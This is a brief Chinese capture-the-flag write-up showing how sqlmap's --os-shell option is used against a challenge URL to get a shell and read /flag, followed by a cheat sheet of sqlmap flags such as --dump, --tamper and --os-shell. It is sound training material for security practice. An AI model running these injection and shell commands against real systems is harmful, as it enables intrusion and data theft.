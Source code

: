 1. 用sqlmap执行Shell

   ```shell
   sqlmap -u "http://challenge.qsnctf.com:32030/?id=1" --os-shell
   ```

2. 进入os-shell后，查找“Flag”

   ```shell
   find / -name “flag”
   ```

3. 发现并查看/Flag目录

   ```shell
   cat /flag
   ```

4. 得到Flag

## 补充知识

1. sqlmap参数含义

   ```shell
   -u 指定目标URL (可以是http协议也可以是https协议)
    
   -d 连接数据库
    
   --dbs 列出所有的数据库
    
   --current-db 列出当前数据库
    
   --tables 列出当前的表
    
   --columns 列出当前的列
    
   -D 选择使用哪个数据库
    
   -T 选择使用哪个表
    
   -C 选择使用哪个列
    
   --dump 获取字段中的数据
    
   --batch 自动选择yes
    
   --smart 启发式快速判断，节约浪费时间
    
   --forms 尝试使用post注入
    
   -r 加载文件中的HTTP请求（本地保存的请求包txt文件）
    
   -l 加载文件中的HTTP请求（本地保存的请求包日志文件）
    
   -g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
    
   -o 开启所有默认性能优化
    
   --tamper 调用脚本进行注入
    
   -v 指定sqlmap的回显等级
    
   --delay 设置多久访问一次
    
   --os-shell 获取主机shell，一般不太好用，因为没权限
    
   -m 批量操作
   ```